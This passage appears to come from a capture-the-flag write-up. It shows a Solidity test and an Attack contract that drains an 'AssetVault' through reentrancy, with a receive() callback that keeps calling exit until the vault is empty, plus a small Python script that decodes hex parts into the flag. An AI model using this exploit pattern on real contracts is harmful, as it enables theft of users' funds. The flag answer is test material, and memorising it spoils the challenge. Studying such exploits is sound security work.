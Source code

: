 ```solidity
        // Check if the vault has sufficient balance before exploit
        uint256 initialVaultBalance = address(vault).balance;
        console.log("Initial Vault Balance: ", initialVaultBalance);
        // Attacker initiates reentrancy exploit
        attacker.attackWithdraw(1 ether);
        console.log("Done with reentrancy exploit");
        // Log final attacker balance
        uint256 finalAttackerBalance = address(attacker).balance;
        console.log("Attacker Final Balance: ", finalAttackerBalance);
        // Verify vault's balance after exploit
        uint256 finalVaultBalance = address(vault).balance;
        console.log("Vault Balance After Attack: ", finalVaultBalance);
        // Assert that the vault balance was drained
        assertTrue(
            finalVaultBalance < initialVaultBalance - 1 ether,
            "Vault balance should have been drained due to reentrancy"
        );
    }
    receive() external payable {} // To accept Ether from the vault
}

contract Attack {
    AssetVault public vault; // Reference to the vulnerable AssetVault
    constructor(address _vault) {
        vault = AssetVault(_vault);
    }
    function attackDeposit() public payable {
        vault.enter{value: msg.value}(); // Deposits Ether into the vault
    }
    function attackWithdraw(uint256 _amount) public {
        vault.exit(_amount); // Initiates withdrawal to trigger reentrancy
    }
    receive() external payable {
        if (address(vault).balance > 0) {
            vault.exit(1 ether); // Keep calling exit until funds are drained
        }
    }
}
```

`decrypt.py` for decrypting the flag: 

```solidity
def decode_bytes32(hex_str):
    bytes_obj = bytes.fromhex(hex_str)
    return bytes_obj.decode('ascii')

part1 = decode_bytes32('466c416753776900000000000000000000000000000000000000000000000000')
part2 = decode_bytes32('6e62757200000000000000000000000000000000000000000000000000000000')
part3 = decode_bytes32('6e65486900000000000000000000000000000000000000000000000000000000')
part4 = decode_bytes32('3375504300000000000000000000000000000000000000000000000000000000')

print(part1 + part2 + part3 + part4) // FlAgSwinburneHi3uPC

// Flag: CTF{FlAgSwinburneHi3uPC}

```